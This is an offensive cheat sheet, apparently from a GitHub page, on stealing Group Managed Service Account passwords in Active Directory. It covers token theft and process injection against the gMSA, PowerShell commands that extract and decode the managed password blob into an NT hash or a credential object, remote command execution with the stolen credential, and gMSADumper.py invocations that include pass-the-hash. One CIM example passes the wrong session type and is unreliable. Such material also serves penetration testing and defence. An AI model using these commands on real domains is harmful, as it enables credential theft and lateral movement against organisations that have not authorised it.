 ### Abusing the Ability to Read GMSA Passwords

#### Overview
There are several ways to abuse the ability to read the Group Managed Service Account (gMSA) password. These methods exploit the intended behavior of gMSAs when they are logged on to computers or when you have access to their credentials. Below is a professional, streamlined cheat sheet outlining these methods and their execution.

---

### Abuse Scenarios

#### 1. GMSA Logged On to a Computer
- **Description**: If the gMSA is currently logged on to a computer account with permission to retrieve its password:
  - **Action**: Steal the token from the process running as the gMSA.
  - **Alternative**: Inject into the process running as the gMSA.

#### 2. GMSA Not Logged On to a Computer
- **Description**: If the gMSA is not logged on to a computer:
  - **Action**: Create a scheduled task or service to run as the gMSA.
  - **Execution**: The computer account will start the task or service as the gMSA, allowing you to abuse the gMSA logon in the same manner as a standard user.
  - **Reference**: See the "HasSession" help modal for additional details on this technique.

---

### Methods to Retrieve gMSA Passwords

#### **Using Active Directory and DSInternals PowerShell Modules**

1. Save the gMSA password blob to a variable:
   ```powershell
   $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
   $mp = $gmsa.'msDS-ManagedPassword'
   ```

2. Decode the data structure using the DSInternals module:
   ```powershell
   ConvertFrom-ADManagedPasswordBlob $mp
   ```

3. Build an NT-Hash for Pass-the-Hash (PTH):
   ```powershell
   (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
   ```

4. Alternatively, create a Credential Object with the plain password:
   ```powershell
   $cred = New-Object System.Management.Automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
   ```

---

### Using Credentials

#### **Option 1: Create a New Session**
1. Start a new session:
   ```powershell
   $session = New-PSSession -ComputerName 127.0.0.1 -Credential $cred
   ```

2. Enter the session:
   ```powershell
   Enter-PSSession -Session $session
   ```

3. Run commands remotely:
   ```powershell
   Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
   ```

#### **Option 2: Run Commands via CIM**
1. Build the command:
   ```powershell
   $Command = 'whoami'
   Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
   ```
# From kali linux we can use tool [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper/tree/main)
Reads any gMSA password blobs the user can access and parses the values.
```shell
python3 gMSADumper.py -u user -p password -d domain.local
```
Pass the Hash, specific LDAP server:
```shell
python gMSADumper.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```
Kerberos Authentication, specific LDAP server:
```shell
python gMSADumper.py -k -d domain.local -l dc01.domain.local
```

